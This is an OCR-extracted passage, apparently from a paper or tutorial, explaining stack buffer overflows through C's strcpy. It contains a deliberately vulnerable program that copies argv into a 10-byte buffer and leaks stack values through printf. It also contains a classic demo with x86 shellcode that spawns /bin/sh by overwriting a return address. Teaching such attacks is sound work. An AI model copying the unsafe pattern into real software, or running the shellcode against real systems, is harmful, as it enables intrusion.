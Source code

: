 The most famous example of this is the use of strcpy in the C Standard Library. The implementation of strcpy is to copy each character until it finds a “0” in the source string, which is used to denote the end of the string. This function easily allows users to overwrite the stack memory, as referenced in Figure 3. (3)

\begin{verbatim}
#include <string.h>
#include <stdio.h> 

void foo(const char* input)
{
    char buf[10];

    printf("My stack looks like:\n%p\n%p\n%p\n%p\n%p\n% p\n\n");

    strcpy(buf, input);
    printf("%s\n", buf);

    printf("Now the stack looks like:\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
}

void bar(void)
{
    printf("Augh! I've been hacked!\n");
}

int main(int argc, char* argv[])
{
    //Blatant cheating to make life easier on myself
    printf("Address of foo = %p\n", foo);
    printf("Address of bar = %p\n", bar);
    if (argc != 2) 
 {
        printf("Please supply a string as an argument!\n");
        return -1;
    } 
foo(argv[1]);
    return 0;
}
\end{verbatim}

The next figure explains how to take advantage of a compromised instruction pointer. The character array called shellcode is filled with pre-written machine code that will open a shell on the compromised system. In the main method, by manipulating the value of ret initially to be pointing to the return address of main, and then manipulating that return address to be where the contents of shellcode are stored, a user can execute the contents of shellcode.

\begin{verbatim}
char shellcode[] =
  "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
  "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
  "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";


void main() {
  int *ret;


  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
\end{verbatim}
